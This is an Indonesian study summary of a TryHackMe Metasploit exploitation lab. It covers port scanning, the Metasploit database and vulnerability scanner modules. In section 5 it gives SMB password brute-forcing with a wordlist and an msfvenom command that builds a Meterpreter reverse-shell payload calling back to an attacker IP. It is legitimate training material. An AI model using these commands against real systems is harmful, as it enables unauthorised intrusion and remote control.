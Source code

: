 ## 🛠️ **Metasploit: Exploitation – Ringkasan Materi**

📝 **Deskripsi:**  
Rangkuman ini disusun dengan bantuan AI (ChatGPT) setelah saya menyelesaikan room ini di TryHackMe. Tujuannya adalah untuk merapikan dan menyederhanakan materi agar lebih mudah dipahami dan diingat.

---

### 📘 **1. Pengenalan**

Room ini memperkenalkan penggunaan Metasploit untuk eksploitasi sistem, termasuk pemindaian, penggunaan database Metasploit, pemindaian kerentanan, eksploitasi layanan rentan, pembuatan payload dengan `msfvenom`, dan penggunaan sesi Meterpreter.([Medium][1])

---

### 🔍 **2. Pemindaian Port**

Gunakan `db_nmap` untuk memindai target dan menyimpan hasilnya dalam database Metasploit:

```bash
db_nmap -sV -sS -T3 TARGET_IP
```

Setelah pemindaian, gunakan modul `netbios/nbname` untuk menemukan nama NetBIOS:

```bash
use auxiliary/scanner/netbios/nbname
set RHOSTS TARGET_IP
run
```

Untuk mengetahui layanan yang berjalan pada port tertentu, periksa hasil pemindaian Nmap.([Medium][2], [Medium][1])

---

### 🗄️ **3. Menggunakan Database Metasploit**

Metasploit menggunakan PostgreSQL untuk menyimpan informasi tentang target. Mulai layanan database dan inisialisasi:

```bash
sudo systemctl start postgresql
msfdb init
```

Periksa status koneksi database:

```bash
db_status
```

Gunakan perintah berikut untuk mengelola data:

* `hosts`: Menampilkan host yang dipindai.
* `services`: Menampilkan layanan yang terdeteksi pada host.
* `workspace`: Mengelola ruang kerja untuk pengujian yang berbeda.([Medium][2], [Reddit][3])

---

### 🔎 **4. Pemindaian Kerentanan**

Gunakan modul pemindaian untuk mengidentifikasi kerentanan:

```bash
search smtp
use auxiliary/scanner/smtp/smtp_relay
info
```

Modul ini dapat digunakan untuk memeriksa apakah server SMTP memungkinkan relay terbuka.([Medium][1])

---

### 💥 **5. Eksploitasi Layanan Rentan**

Gunakan modul `smb_login` untuk mencoba kredensial pada layanan SMB:

```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS TARGET_IP
set SMBUser USERNAME
set pass_file /path/to/wordlist.txt
run
```

Setelah mendapatkan akses, gunakan `msfvenom` untuk membuat payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf > reverse_shell.elf
```

Unggah dan jalankan payload pada target untuk mendapatkan sesi Meterpreter.([Medium][1])

---

### 🧠 **6. Kesimpulan**

Room ini memberikan pemahaman praktis tentang penggunaan Metasploit untuk eksploitasi sistem, mulai dari pemindaian hingga mendapatkan akses shell pada target. Dengan memahami langkah-langkah ini, Anda dapat lebih efektif dalam mengidentifikasi dan mengeksploitasi kerentanan pada sistem target.
